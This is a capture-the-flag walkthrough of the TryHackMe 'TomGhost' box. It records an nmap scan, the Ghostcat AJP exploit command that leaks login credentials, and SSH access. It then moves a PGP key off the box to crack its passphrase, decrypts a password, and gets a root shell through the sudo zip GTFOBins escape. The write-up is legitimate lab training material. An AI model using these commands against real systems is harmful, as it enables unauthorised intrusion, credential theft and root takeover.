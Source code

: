 # TryHackMe
------------------------------------
### IP: 10.10.166.198
### Name: TomGhost
### Difficulty: Easy
--------------------------------------------------

tomghost.jpeg

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

Nmap:
```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.166.198  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-13 08:39 CDT
Nmap scan report for 10.10.166.198
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3c89f0b6ac5fe95540be9e3ba93db7c (RSA)
|   256 dd1a09f59963a3430d2d90d8e3e11fb9 (ECDSA)
|_  256 48d1301b386cc653ea3081805d0cf105 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds
```

Looking for exploits against Apache jserv I find this ghostcat PoC: https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.py

### Exploitation

We can lauch the exploit with:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ python2 CVE-2020-1938.py 10.10.166.198 -p 8009 -f WEB-INF/web.xml
```

Which drops some credentials for us:

tomghost_creds.png

We can use these credentials to login via SSH:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ ssh skyfuck@10.10.166.198                           
The authenticity of host '10.10.166.198 (10.10.166.198)' can't be established.
ED25519 key fingerprint is SHA256:tWlLnZPnvRHCM9xwpxygZKxaf0vJ8/J64v9ApP8dCDo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.166.198' (ED25519) to the list of known hosts.
skyfuck@10.10.166.198's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ hostname
ubuntu
```

We can now grab the user.txt flag:

tomghost_user_flag.png

### Privilege Escalation

Browsing around the target we find a file called tryhackme.asc, which is a PGP key:

tomghost_pgp.png

Trying to import and decrypt the key we see it is passphrase protected:

tomghost_nope.png

Lets transfer it over to our attacking machine and crack it with john by setting up a python http.server on the target:

```
skyfuck@ubuntu:~$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 ...
10.6.72.91 - - [13/Jul/2024 07:01:04] "GET /tryhackme.asc HTTP/1.1" 200 -
```

The using wget to download it locally:

```
┌──(ryan㉿kali)-[~/THM/TomGhost]
└─$ wget 10.10.166.198:1234/tryhackme.asc      
--2024-07-13 09:01:03--  http://10.10.166.198:1234/tryhackme.asc
Connecting to 10.10.166.198:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5144 (5.0K) [text/plain]
Saving to: ‘tryhackme.asc’

tryhackme.asc                   100%[====================================================>]   5.02K  --.-KB/s    in 0s      

2024-07-13 09:01:03 (770 MB/s) - ‘tryhackme.asc’ saved [5144/5144]
```

We can then use john to extract the hash from the PGP key:

tomghost_john.png

Cool, now that we have the passphrase we can run:

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
gpg: key C6707170: already in secret keyring
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

Then:

```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Which gives us merlin's password.

```
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We can the `su merlin` with the password:

```
skyfuck@ubuntu:~$ su merlin 
Password: 
merlin@ubuntu:/home/skyfuck$ whoami
merlin
```

Running `sudo -l` to see what merlin can run with elevated permissions we find:

```
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Heading to gtfobins.com we can get the command we'll need to exploit this:

tomghost_gtfo.png

Lets run:

```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```

Which drops us into a root shell.

We can now grab the final flag:

tomghost_root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------